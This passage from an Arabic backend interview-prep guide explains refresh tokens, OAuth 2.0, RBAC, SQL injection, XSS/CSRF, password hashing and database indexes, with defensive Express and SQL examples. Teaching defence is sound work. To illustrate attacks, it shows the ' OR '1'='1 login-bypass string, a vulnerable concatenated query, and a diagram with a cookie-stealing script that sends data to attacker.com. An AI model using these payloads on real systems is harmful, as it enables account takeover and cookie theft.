لأن JWT Stateless، لو سرق هاتف زبون، لا يمكنك إلغاء الـ Token فوراً! الحل الإنتاجي هو استخدام **Short-Lived Access Tokens (15 min) مع Refresh Tokens (Q49)**، وحفظ قائمة سوداء سريعة (Blacklist) في Redis للـ Tokens المبلّغ عن سرقتها.

---

## Q49 — إزاي الـ Refresh Token والـ Short-Lived Access Token بيشتغلوا مع بعض بأمان؟

### أصل الحكاية

لو جعلنا عمر الـ JWT Access Token طويلاً (مثلاً 30 يوماً)... فلو سرق هكر الـ Token، يستطيع استخدامها للسرقة لمدة شهر كامل دون أن تملك أي قدرة على إيقافه!
ولو جعلنا عمر الـ Access Token قصيراً جداً (مثلاً 5 دقائق)... فالزبون سينفصل حسابه ويطلب منه إعادة كتابة كلمة السر كل 5 دقائق، مما يدمر تجربة المستخدم!

الحل هو **Dual Token Architecture (Access Token + Refresh Token)**:
1. **Access Token (عمر قصير: 15 دقيقة)**: تُرسل في الـ Header واستخدامها سريع للوصول للـ APIs.
2. **Refresh Token (عمر طويل: 7 أيام)**: تُحفظ في Cookie أمنية مشفرة (`HttpOnly, Secure, SameSite=Strict`) وتخزن نسختها المشفرة في قاعدة البيانات.
عندما تنتهي الـ Access Token، ينادي المتصفح خلفياً `/api/v1/auth/refresh` للتحقق من الـ Refresh Token وتوليد Access Token جديدة تلقائياً بدون إزعاج الزبون!



```javascript
// Express Refresh Token Rotation Handler
app.post('/api/v1/auth/refresh', async (req, res) => {
  const refreshToken = req.cookies.refreshToken;
  if (!refreshToken) return res.status(401).json({ error: 'مطلوب Refresh Token' });

  // 1. Verify Refresh Token Signature
  const payload = jwt.verify(refreshToken, process.env.REFRESH_TOKEN_SECRET);

  // 2. Check if Refresh Token exists in DB and is NOT revoked
  const savedToken = await db.refreshTokens.findUnique({ where: { token: refreshToken } });
  if (!savedToken || savedToken.isRevoked) {
    return res.status(403).json({ error: 'تم إلغاء الجلسة، يرجى تسجيل الدخول مجدداً' });
  }

  // 3. Token Rotation: Revoke OLD Refresh Token & Issue NEW Pair!
  await db.refreshTokens.update({ where: { token: refreshToken }, data: { isRevoked: true } });
  const newAccessToken = generateAccessToken(payload.userId);
  const newRefreshToken = generateRefreshToken(payload.userId);

  await saveRefreshTokenToDb(payload.userId, newRefreshToken);
  setHttpOnlyCookie(res, 'refreshToken', newRefreshToken);

  return res.json({ accessToken: newAccessToken });
});
```

#### مثال 1: التطبيق العملي — تجربة مستخدم سلسة بدون إعادة تسجيل الدخول

في متجر التجارة، الزبون يظل مسجلاً لدخوله طوال الشهر بسلاسة، بينما في الخفاء يتم تجديد الـ Access Token كل 15 دقيقة أوتوماتيكياً عبر الـ Refresh Token في الخفاء.

#### مثال 2: فخ شائع — تخزين الـ Refresh Token في الـ LocalStorage

من الأخطاء الكارثية حفظ الـ Refresh Token في `localStorage` بالمتصفح! أي ثغرة **XSS (Q53)** صغيرة تستطيع سرقة الـ Refresh Token وإنشاء اتصالات غير محدودة. الصواب المطلق هو حفظ الـ Refresh Token داخل **`HttpOnly, Secure Cookie`** يمنع الـ JavaScript من قراءتها كلياً.

#### مثال 3: حالة إنتاجية — خاصية الـ Refresh Token Rotation وكشف السرقة التلقائي

في الأنظمة البنكية، بنطبق **Refresh Token Rotation**: مع كل عملية تجديد، الـ Refresh Token القديمة تُبطل وتُستبدل بـ Refresh Token جديدة فوراً. لو حاول هكر استخدام Refresh Token قديمة تم استخدامها مسبقاً، النظام يكتشف السرقة فوراً ويقوم بـ **Security Lockdown**: إبطال كل الـ Refresh Tokens التابعة لهذا المستخدم فوراً وإجباره على تغيير كلمة السر!

---

## Q50 — إزاي بتشتغل عملية "تسجيل الدخول بجوجل" فعلياً (OAuth 2.0 Authorization Code Flow)؟

### أصل الحكاية

عندما تضغط على زر "تسجيل الدخول باستخدام Google" في منصة التجارة الإلكترونية، كيف تثبت هويتك للمتجر دون أن تعطي المتجر كلمة سر حسابك في Google؟

البروتوكول المعياري العالمي هو **OAuth 2.0 (Authorization Code Flow with PKCE)**:
1. المتصفح يوجه الزبون لصفحة تسجيل دخول Google الرسمية.
2. الزبون يدخل كلمة السير في سيرفرات Google المأمنة ويوافق على منح المتجر صلاحية قراءة الإيميل والاسم.
3. Google يوجه الزبون مجدداً لـ Redirect URI الخاص بمتجرك مرفقاً معه **`Authorization Code` مؤقت** (صالح لدقيقة واحدة).
4. سيرفر الباك اند للمتجر يأخذ الـ Authorization Code ويتواصل **مباشرة (Server-to-Server)** مع Google API لاستبدال الكود بـ **Google ID Token & Access Token**.
5. الباك اند يفك تشفير ID Token، يقرأ الإيميل، وينشئ حساب للزبون أو يسجل دخوله بنجاح!



```javascript
// Express Handler for Google OAuth 2.0 Callback
const { OAuth2Client } = require('google-auth-library');
const client = new OAuth2Client(process.env.GOOGLE_CLIENT_ID, process.env.GOOGLE_CLIENT_SECRET, process.env.GOOGLE_REDIRECT_URI);

app.get('/api/v1/auth/google/callback', async (req, res) => {
  const { code } = req.query;

  // 1. Exchange temporary Auth Code for Google Tokens (Server-to-Server call)
  const { tokens } = await client.getToken(code);
  
  // 2. Verify Google ID Token payload safely
  const ticket = await client.verifyIdToken({
    idToken: tokens.id_token,
    audience: process.env.GOOGLE_CLIENT_ID,
  });

  const { email, name, picture } = ticket.getPayload();

  // 3. Find or Create User in Store Database
  let user = await db.users.findUnique({ where: { email } });
  if (!user) {
    user = await db.users.create({ data: { email, name, avatar: picture } });
  }

  // 4. Issue Store's Own JWT Token to Client
  const storeToken = generateStoreJwt(user.id);
  res.redirect(`https://store.com/login-success?token=${storeToken}`);
});
```

#### مثال 1: التطبيق العملي — حماية أسرار المتجر بـ Server-to-Server Token Exchange

في المتجر، استبدال الـ Authorization Code بـ Tokens يتم مباشرة بين سيرفر الباك اند وسيرفرات Google عبر اتصال مشفر، مما يضمن أن `GOOGLE_CLIENT_SECRET` لا يلمس جهاز الزبون أو المتصفح نهائياً.

#### مثال 2: فخ شائع — نسيان تفعيل حماية `state` Parameter ومواجهة ثغرات CSRF

من الفخاخ الكارثية نسيان إرسال واستبدال متغير **`state` (Random Cryptographic Token)** أثناء توجيه الزبون لـ Google! بدون الـ `state`، يسهل على المهاجم تنفيذ ثغرة CSRF وربط حساب الزبون بحساب المهاجم بنجاح (Account Linking Attack).

#### مثال 3: حالة إنتاجية — تطبيق PKCE (Proof Key for Code Exchange) للتطبيقات الذكية

في تطبيقات الموبايل (iOS/Android)، بنطبق **PKCE (RFC 7636)**: الموبايل يولد `code_verifier` عشوائي ويدمج الـ Hash بتاعه `code_challenge`. ده يمنع أي تطبيق خبيث مثبت على الموبايل من اعتراض الـ Auth Code وتزوير تسجيل الدخول.

---

## Q51 — إزاي بتصمم نظام صلاحيات (RBAC) بدل ما تكتب `if` statements منتشرة في كل حتة؟

### أصل الحكاية

في منصة التجارة الإلكترونية، تتعدد أنواع المستخدمين: **زبون (Customer)**، **تاجر (Merchant)**، **موظف دعم (Support)**، و **مدير منصة (Admin)**.
لو كتبت فحص الصلاحيات يدوياً داخل كل دالة بكتابة شروط `if (user.role === 'ADMIN' || (user.role === 'MERCHANT' && product.merchantId === user.id))`... الكود سيتحول لفوضى عارمة، وستظهر ثغرات أمنية عند إضافة أي ميزة جديدة!

الحل هو تصميم **Role-Based Access Control (RBAC)** أو **Attribute-Based Access Control (ABAC)**.
نصلح المعمارية بفصل الصلاحيات إلى 3 جداول:
1. **Users**: المستخدمين.
2. **Roles**: الأدوار (مثل `ADMIN`, `MERCHANT`, `CUSTOMER`).
3. **Permissions**: الصلاحيات الدقيقة (مثل `products:create`, `orders:refund`, `users:delete`).
تُربط الأدوار بالصلاحيات، ويتم فحص الصلاحية عبر **Authorize Guard / Middleware** موحد يقرأ الاسم المطلوب فقط.



```javascript
// Production RBAC Middleware in Node.js / Express
function requirePermission(permissionRequired) {
  return async (req, res, next) => {
    const userPermissions = req.user.permissions; // Loaded during AuthN e.g. ['products:create', 'orders:read']

    if (!userPermissions || !userPermissions.includes(permissionRequired)) {
      return res.status(403).json({
        error: `ليس لديك الصلاحية الكافية لتنفيذ هذا الإجراء: (${permissionRequired})`
      });
    }

    next(); // Permission granted!
  };
}

// Clean Declaration in Product Routes
app.post('/api/v1/products', authenticate, requirePermission('products:create'), createProductController);
```

#### مثال 1: التطبيق العملي — النظافة البرمجية وسهولة صيانة شروط الصلاحيات

في المتجر، بفضل RBAC، إضافة ميزة جديدة لا تتطلب تعديل شروط الـ `if` في 50 مكان! بنعرف اسم الصلاحية `orders:refund` ونرفقها بالـ Route. لو تغيرت صلاحيات التاجر مستقبلاً، بنعدل الجدول في قاعدة البيانات فقط بدون تغيير سطر كود واحد.

#### مثال 2: فخ شائع — اعتماد Hardcoded Roles بدل الـ Fine-Grained Permissions

من الفخاخ المعمارية فحص اسم الدور صراحة في الكود: `if (user.role === 'SUPER_ADMIN')`! بعد سنة، لما تطلب الشركة إنشاء دور جديد اسمه `REGIONAL_MANAGER` له 80% من صلاحيات السوبر أدمن، ستضطر لدخول الكود وتعديل آلاف شروط الـ `if` في المشروع! الصواب هو فحص **الصلادية (Permission)** وليس اسم الـ Role.

#### مثال 3: حالة إنتاجية — الترقية لـ ABAC (CASL / Policy Engine) للتحقق من المليكية

في بعض الحالات، RBAC غير كافي! مثلاً: التاجر مسموح له بتعديل منتجاته هو فقط (`product.merchantId === user.id`). بنستخدم مكتبة **CASL.js** لتطبيقات **ABAC (Attribute-Based Access Control)** التي تفحص الأدوار والـ Attributes ديناميكياً بأمان تام: `ability.can('update', subject('Product', product))`.

---

## Q52 — إيه هو SQL Injection فعلياً، وإزاي Parameterized Queries بتحل المشكلة جذرياً؟

### أصل الحكاية

تعتبر ثغرة **SQL Injection (حقن أوامر SQL)** واحدة من أقدم وأخطر الكوارث الأمنية في تاريخ الويب. بتحصل لما الباك اند يدمج مدخلات الزبون (User Inputs) صراحة كـ String Concatenation داخل استعلام الـ SQL المرسل لقاعدة البيانات!

تخيل كود تسجيل الدخول الخاطئ التالي:
`SELECT * FROM users WHERE email = '` + req.body.email + `' AND password = '` + req.body.password + `'`
لو قام الهكر بكتابة الإيميل التالي في الخانة: `' OR '1'='1`
الاستعلام يتحول في قاعدة البيانات إلى:
`SELECT * FROM users WHERE email = '' OR '1'='1' AND password = ''`
لأن `'1'='1'` صحيحة دائماً، قاعدة البيانات ستلغي فحص كلمة السر وترجع أول حساب في الداتابيز (حساب المدير Admin)! وتكتمل عملية الاختراق!

الحل النهائي والمطلق هو **Parameterized Queries (Prepared Statements)**:
فصل كود استعلام الـ SQL تماماً عن البيانات! السيرفر يرسل هيكل الاستعلام أولاً لمحرك PostgreSQL لـ Compiling، ثم يرسل المدخلات كـ **Parameters معزولة**. قاعدة البيانات تعامل المدخلات كـ Plain Text صامت فقط، حتى لو احتوى النص على أوامر SQL خبيثة!



```javascript
// SAFE Parameterized Query with node-postgres
const email = req.body.email; // Hacker inputs: ' OR '1'='1
const password = req.body.password;

// PostgreSQL Engine treats $1 and $2 strictly as string values!
const result = await db.query(
  'SELECT id, email, role FROM users WHERE email = $1 AND password = $2',
  [email, password] // Parameters array isolated!
);
```

#### مثال 1: التطبيق العملي — الحماية التلقائية باستخدام الـ ORMs (Prisma / TypeORM / Knex)

في منصة المتجر، الـ ORMs الحديثة مثل Prisma أو TypeORM بتستخدم Parameterized Queries أوتوماتيكياً تحت البلاطة لكل الاستعلامات: `db.user.findUnique({ where: { email } })` تحميك بنسبة 100% من ثغرات SQL Injection بدون جهد يدوي.

#### مثال 2: فخ شائع — استخدام الـ Raw SQL Queries مع التجميع النصي داخل الـ ORM

من الأخطاء الكارثية ظن أن استخدام الـ ORM يحميك حتى لو كتبت Raw SQL! مثل:
`db.sequelize.query(`SELECT * FROM products WHERE name LIKE '%${req.query.search}%'`)`
هذا الكود مصاب بثغرة SQL Injection صريحة! الصواب عند استخدام Raw Queries هو التمرير الصريح للـ Replacement Parameters: `SELECT * FROM products WHERE name LIKE $1`.

#### مثال 3: حالة إنتاجية — فحص الكود الآلي بـ SAST Tools (SonarQube / Snyk) في الـ CI/CD

في شركات الإنتاج، بنضيف أدوات فحص الأمن الآلي (SAST) في الـ CI/CD Pipeline (Q62). الأدوات تكتشف أي محاولة تجميع نصي داخل استعلامات SQL وتمنع دمج الـ Code حتى يتم تصحيحه كـ Parameterized Query.

---

## Q53 — إيه الفرق بين XSS وCSRF، وليه الحماية من الاتنين مختلفة تماماً؟

### أصل الحكاية

من أكثر الكوارث الأمنية خلطاً بين المهندسين هي الثغرتين الشهيرتين **XSS (Cross-Site Scripting)** و **CSRF (Cross-Site Request Forgery)**.

- **XSS (حقن السكريبتات)**: المهاجم يحقن كود JavaScript خبيث داخل متجر التجارة (مثلاً في تقييمات المنتجات). عند فتح أي زبون لصفحة المنتج، يتنفذ كود الـ JS الخبيث داخل متصفح الزبون، ويستطيع سرقة الـ Cookies والـ Access Tokens وإرسالها لسيرفر المهاجم!
- **CSRF (تزوير الطلبات عبر المواقع)**: المهاجم يستغل أن متصفح الزبون يحفظ Cookie الدخول المشفرة الخاصة بالمتجر. المهاجم يغري الزبون بفتح موقع خبيث خارجي، والموقع الخبيث يرسل طلب خفي `POST https://store.com/api/v1/cart/checkout`! لأن الطلب موجه للمتجر، المتصفح يرفق Cookie الدخول تلقائياً، فيظن سيرفر المتجر أن الزبون هو من طلب الشراء!

```mermaid
flowchart TD
    subgraph XSS Attack Client-Side Execution
        Attacker1[Hacker] -->|Injects <script>fetch(attacker.com?c=cookie)</script>| DB[(Store DB)]
        DB -->|Displays comment| Victim1[Victim Browser]
        Victim1 -->|JS Executes & Steals Data| Attacker1
    end

    subgraph CSRF Attack Cross-Origin Request Forgery
        Victim2[Logged-in User] -->|Visits evil.com| Evil[Evil Website]
        Evil -->|Hidden POST to store.com/checkout| StoreAPI[Store Backend]
        Note over StoreAPI: Browser automatically attached Auth Cookies -> Executed!
    end
```

```javascript
// Protection Against XSS & CSRF in Express

// 1. Protection Against XSS: Sanitize HTML & Set Content-Security-Policy (Helmet)
const helmet = require('helmet');
app.use(helmet()); // Sets Security Headers including CSP, X-XSS-Protection

// 2. Protection Against CSRF: Set SameSite=Strict & HttpOnly on Auth Cookies
res.cookie('refreshToken', token, {
  httpOnly: true, // Prevents XSS JS script from reading cookie!
  secure: true,   // Transmitted over HTTPS only
  sameSite: 'strict' // Prevents CSRF cross-origin automatic transmission!
});
```

#### مثال 1: التطبيق العملي — الحماية من XSS بتطهير المدخلات (Output Sanitization)

في المتجر، عند تعليق الزبون على منتج، بنستخدم مكتبة مثل **DOMPurify** أو **sanitize-html** لتطهير النص ومسح أي وسم `<script>` أو `onerror=` قبل حفظه في قاعدة البيانات وعرضه للزبائن.

#### مثال 2: فخ شائع — ظن أن الحماية من XSS تحميك من CSRF تلقائياً

من الفخاخ ظن أن وسيلة واحدة تحميك من الثغرتين! الحماية من XSS تتطلب **Sanitization** و **CSP Headers** وتخزين التوكينز في `HttpOnly Cookies`. بينما الحماية من CSRF تتطلب ضبط **`SameSite=Strict` Cookie Attribute** أو استخدام **Anti-CSRF Tokens (Double Submit Cookie)**.

#### مثال 3: حالة إنتاجية — إطار العمل الحديث (React / Next.js) والوقاية التلقائية من XSS

في الفرونت اند الحديث (React / Vue)، أطر العمل بتعمل **Automatic String Escaping** لكل النصوص المعروضة بين `{userComment}`، مما يمنع تنفيذ سكريبتات الـ XSS تلقائياً إلا لو استخدم المطور بشكل خاطئ `dangerouslySetInnerHTML`.

---

## Q54 — إزاي بتخزن الباسوردات بأمان في الـ Database، ولإيه Hashing مش Encryption؟

### أصل الحكاية

من أكبر الأخطاء الكارثية في تاريخ أمان الباك اند هي تخزين كلمات سر المستخدمين بصيغة النص الصريح (Plaintext Passwords)، أو استخدام التشفير العادي ثنائي الاتجاه (Symmetric Encryption)! لو تعرضت قاعدة البيانات للتسريب أو الاختراق، سيسرق المهاجم كلمات السر الخاصة بملايين الزبائن واستخدامها في اختراق إيميلاتهم وحساباتهم البنكية!

القواعد الأمنية الصارمة لتخزين كلمات السر:
1. **استخدام Hashing مش Encryption**: التشفير (Encryption) هو عملية ثنائية الاتجاه (Two-Way) تملك مفتاح فك تشفير (Decryption Key) ينكشف لو اخترق السيرفر. بينما الـ **Hashing** هو عملية أحادية الاتجاه (One-Way Cryptographic Function) مستحيل رياضيًا عودتها لنصها الأصلي!
2. **إضافة Salt عشوائي فريد لكل كلمة سر**: الـ **Salt** هو نص عشوائي يضاف لكلمة السر قبل الـ Hash لمنع هجمات الجدول المجهز مسبقاً (**Rainbow Tables Attack**).
3. **استخدام Slow Adaptive Hashing Algorithms**: استخدام خوارزميات بطيئة مصممة خصيصاً للتشفير مثل **Bcrypt**, **Argon2id**, أو **PBKDF2**. البطء التعمدي (Work Factor / Salt Rounds) يمنع الهكر من تجربة مليارات كلمات السر في الثانية بكروت الشاشة (GPU Bruteforce Attacks).

```mermaid
flowchart LR
    Password[Plaintext Password: secret123] --> SaltGen[Generate Unique Salt: x8f9...]
    SaltGen --> HashAlgo[Bcrypt Algorithm Work Factor = 12]
    HashAlgo --> StoredHash[Stored Hash in DB: $2b$12$x8f9...g7H9zK]
    
    Note over StoredHash: Cannot be decrypted back to secret123!
```

```javascript
// Secure Password Hashing & Verification with Bcrypt in Node.js
const bcrypt = require('bcrypt');
const SALT_ROUNDS = 12; // Adaptive Work Factor (Takes ~250ms to compute)

// 1. During User Registration:
async function hashPassword(plainPassword) {
  const hash = await bcrypt.hash(plainPassword, SALT_ROUNDS);
  return hash; // Save this string in Database users.password column!
}

// 2. During User Login:
async function verifyPassword(plainPassword, storedHash) {
  // Bcrypt extracts salt from storedHash and verifies cryptographically
  const isMatch = await bcrypt.compare(plainPassword, storedHash);
  return isMatch; // Returns true or false
}
```

#### مثال 1: التطبيق العملي — اختيار Argon2id كأحدث معيار تشفير عالمي

في المنصات المالية والتجارية الحديثة، نفضل **Argon2id** (الفائز بمسابقة Password Hashing Competition) لأنه مقاوم لهجمات الـ GPU والـ ASIC Hardware Attacks عبر استهلاك ذاكرة RAM محددة لكل عملية Hash.

#### مثال 2: فخ شائع — استخدام خوارزميات التشفير السريعة مثل MD5 أو SHA-256

من الفخاخ الأمنية القاتلة استخدام `crypto.createHash('sha256')` لتشفير كلمات السر! خوارزميات SHA-256 و MD5 صممت لتكون فائقة السرعة للملفات. كروت الشاشة الحديثة (GPUs) تستطيع حساب **100 مليار SHA256 Hash في الثانية الواحدة**، مما يجعل اختراق كلمة سر الزبون مسألة ثوانٍ معدودة!

#### مثال 3: حالة إنتاجية — ترقية الـ Work Factor تلقائياً (Re-hashing on Login)

مع تطور سرعة المعالجات، الـ Work Factor القديم (مثلاً Bcrypt rounds = 8) يصبح ضعيفاً. في الباك اند الاحترافي، عند تسجيل الزبون لدخوله بنجاح، نفحص هل الـ Hash قديم؟ لو قديم، نعيد حساب الـ Hash بـ Work Factor جديد (rounds = 12) ونحدث قاعدة البيانات أوتوماتيكياً.

---

> [!tip] Checkpoint نهائي للموضوع (الأمان والـ Authentication)
> **مراجعة محورية للأمان والتوثيق:**
> 1. **AuthN vs AuthZ (Q47)**: فرق بين إثبات الهوية (401) وفحص الصلاحيات (403) واحمِ النظام من ثغرات BOLA/IDOR.
> 2. **JWT & Refresh Tokens (Q48 & Q49)**: اعتمد Access Tokens قصيرة العمر مع Refresh Tokens محفوفة في HttpOnly Cookies لمنع التجسس.
> 3. **OAuth 2.0 (Q50)**: نفذ Authorization Code Flow مع PKCE وحماية `state` للتكامل الآمن مع خوادم التوثيق الخارجية.
> 4. **RBAC & Parameterized Queries (Q51 & Q52)**: اعزل الصلاحيات في Guards مركزية واقضِ على SQL Injection بـ Parameterized Queries.
> 5. **XSS, CSRF & Password Hashing (Q53 & Q54)**: طهر مخرجات الكود ضد XSS، واضبط `SameSite=Strict` ضد CSRF، وشفّر كلمات السر بـ Bcrypt/Argon2id مع Salt.

---

## Q55 — إيه هي الـ Database Indexes، وإزاي B-Tree Index بيسرّع البحث من O(N) لـ O(log N)؟

### أصل الحكاية

تخيل جدول المنتجات في منصة التجارة الإلكترونية يحتوي على 5,000,000 منتج. عند البحث عن منتج برقم معرفه الخاص `SELECT * FROM products WHERE sku = 'IPHONE-15-PRO'`... لو الجدول لا يحتوي على **Index (فهرس)**، محرك قاعدة البيانات سيضطر لقراءة الـ 5 مليون صف من القرص الصلب صفاً صفاً (**Full Table Scan**) بأداء زمني $O(N)$ يستغرق 5 ثوانٍ!

الـ **Database Index** هو هيكل بيانات جانبي (عادةً **B-Tree Index**) يحتفظ بعامود معين منسقاً ومترتباً في شجرة بحث متوازنة.
البحث في شجرة الـ B-Tree يقلل عدد عمليات القراءة من القرص بشكل خرافي: بدلاً من فحص 5,000,000 صف، المحرك يقطع الشجرة في 4 خطوات فقط ($O(\log N)$) ويعثر على المكان الدقيق للصف في أقل من **1 millisecond!**

```mermaid
flowchart TD
    Root[B-Tree Root Node: SKU Range A - Z] --> Branch1[Branch: A - M]
    Root --> Branch2[Branch: N - Z]
    
    Branch2 --> Leaf1[Leaf Node: IPHONE-15-PRO -> Pointer to Disk Block #9821]
    
    Note over Leaf1: Search completed in 3 steps O log N instead of 5,000,000 rows!
```

```sql
-- Creating B-Tree & Composite Indexes in PostgreSQL
CREATE INDEX idx_products_sku ON products(sku);

-- Composite Index for Multi-Column Queries (Category + Price)
CREATE INDEX idx_products_category_price ON products(category_id, price DESC);
```

#### مثال 1: التطبيق العملي — الـ Composite Indexes للاستعلامات المركبة

في متجر المنتجات، الزبون يطلب: "هواتف قسم الإليكترونيات مرتبة من الأعلى سعراً" (`WHERE category_id = 5 ORDER BY price DESC`). بننشئ **Composite Index (فهرس مركب)** على العامودين معاً `(category_id, price DESC)`، مما يجعل الداتابيز تقرأ النتيجة المرتبة مباشرة من الفهرس في 2ms بدون الحاجة لعملية Sorting مكلفة في الـ RAM.

#### مثال 2: فخ شائع — الإفراط في إنشاء الـ Indexes وتبطيء عمليات الـ Write

من الفخاخ المعمارية ظن أن إضافة Index على كل عامود في الجدول فكرة ممتازة! كل Index هو هيكل بيانات مستقل يجب تحديثه وتعديله مع كل عملية `INSERT`, `UPDATE`, أو `DELETE`. الإفراط في الـ Indexes يسرع القراءة قليلاً ولكنه يضاعف زمن عمليات الشراء والكتابة 5 أضعاف ويستهلك المساحة!

#### مثال 3: حالة إنتاجية — الـ Cover Indexes وتقليل القراءة من الـ Heap

في الاستعلامات عالية التكرار، بنستخدم **Covering Index (`INCLUDE`)**. الفهرس يحتفظ بالقيم المطلوبة صراحة (مثلا `sku` و `price`). محرك الداتابيز يقدم الرد من الفهرس مباشرة (Index-Only Scan) بدون الرجوع للقرص الصلب الأصلي (Heap Lookup)، مما يضاعف الأداء بـ 10 أضعاف.

---

## Q56 — إزاي بتقرأ الـ EXPLAIN ANALYZE عشان تكتشف الاستعلامات البطيئة؟

### أصل الحكاية

عندما تلاحظ أن صفحة الشراء أصبحت بطيئة وتأخذ ثانيتين للرد، كيف تكتشف أين المشكلة بدقة داخل استعلام الـ SQL المشتبه فيه؟

الأداة التحليلية القياسية في قواعد البيانات هي **`EXPLAIN ANALYZE`**:
أمر يسبق استعلام الـ SQL ويجبر قاعدة البيانات على تنفيذ الاستعلام طبقا لخطة المحرك (**Query Execution Plan**) وطباعة تقرير تفصيلي يوضح:
- **Scan Type**: هل استخدم المحرك Index Scan أم Seq Scan (Full Table Scan)؟
- **Execution Cost & Time**: الزمن المستغرق والمجهود في كل خطوة بالملي ثانية.
- **Rows Filtered**: عدد الصفوف المرفوضة والمقروءة.

```sql
-- Analyzing Query Performance in PostgreSQL
EXPLAIN ANALYZE 
SELECT * FROM orders 
WHERE customer_id = 42 AND status = 'PENDING';

/* Execution Plan Output:
Seq Scan on orders (cost=0.00..18250.00 rows=15 width=120) (actual time=45.210..180.450 ms)
  Filter: (customer_id = 42 AND status = 'PENDING')
  Rows Removed by Filter: 499985
Execution Time: 180.520 ms
WARNING: Seq Scan detected! Needs Index on (customer_id, status)!
*/
```

